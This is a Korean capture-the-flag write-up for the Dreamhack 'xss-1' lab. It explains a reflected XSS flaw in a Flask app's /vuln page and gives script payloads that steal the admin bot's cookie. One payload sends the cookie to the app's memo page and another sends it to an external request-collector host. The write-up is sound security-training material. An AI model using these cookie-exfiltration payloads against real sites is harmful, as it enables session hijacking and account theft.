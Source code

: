 ## 📍xss-1

```
여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다.  
XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.
```

들어가보면 /, /vuln, /memo, /flag 4개의 페이지를 제공한다.


#### 소스코드

vuln 페이지는 이용자가 전달한 `param` 파라미터의 값을 출력한다.
![[{BC90F34F-D2E9-4BB2-94C8-98712D5652CB}.png]]

memo 페이지는 이용자가 전달한 `memo` 파라미터 값을 `memo_text`에 추가하고, `render_template` 함수를 통해 출력한다.
![[{D5DB0D21-75EE-49F1-A59B-A3AB76EB8F65}.png]]

flag 페이지는 GET 요청의 경우 이용자에게 URL을 입력받는 페이지를 제공한다.
POST 요청의 경우, 이용자가 전달한 `param` 파라미터에 값과 쿠키에 FLAG를 포함해 `check_xss` 함수를 호출한다.
![[{3FB2C24F-6461-443E-8E00-112267906E2B}.png]]

`check_xss` 함수는 `read_url` 함수를 호출해서 vuln 엔드포인트에 접속한다.
![[{2351CE11-953A-42F5-99FD-E1B6368DE7FC}.png]]


`read_url` 함수는 Selenium 웹드라이버를 사용해 쿠키를 추가하고 주어진 url에 접속하는 함수였다.
따라서 FLAG는 Selenium 봇의 쿠키에 들어가 있으므로 쿠키를 탈취해야 한다.


#### 취약점

vuln과 memo는 둘 다 이용자의 입력값을 페이지에 출력하지만, memo는 `render_translate` 함수를 사용해서 출력한다. `render_template` 함수는 전달된 템플릿 변수를 기록할 때 HTML 엔티티코드로 변환해 저장하기 때문에 XSS가 발생하지 않는다.
vuln은 이용자의 입력값을 페이지에 그대로 출력하기 때문에 XSS가 발생한다.


#### 해결

vuln 엔드포인트에서 발생하는 XSS 취약점을 통해 Selenium 봇의 쿠키를 탈취한다.
(document.cookie)

memo 페이지는 이용자가 추가한 값을 출력하므로, flag 값을 확인하려면 flag 엔드포인트에서 이런 코드를 입력한다.
```javascript
<script>location.href = "/memo?memo=" + document.cookie;</script>
```

![[{C17C5A5F-96CF-4200-B806-B48F0973DC6E}.png]]

memo 페이지에 flag 값이 출력되어 있다.
![[{9FB04350-D727-4022-9DFA-D48C63DAEF63}.png]]



혹은 외부에서 접근 가능한 웹 서버 주소를 넣어서 탈취한 쿠키를 확인할 수도 있다.
https://tools.dreamhack.games/main
```javascript
<script>
	location.href = "EXAMPLEHOST.request.dreamhack.games/?memo=" + document.cookie;
</script>
```
![[{A6D2590A-D1D7-416C-BAF0-46C62414563F}.png]]

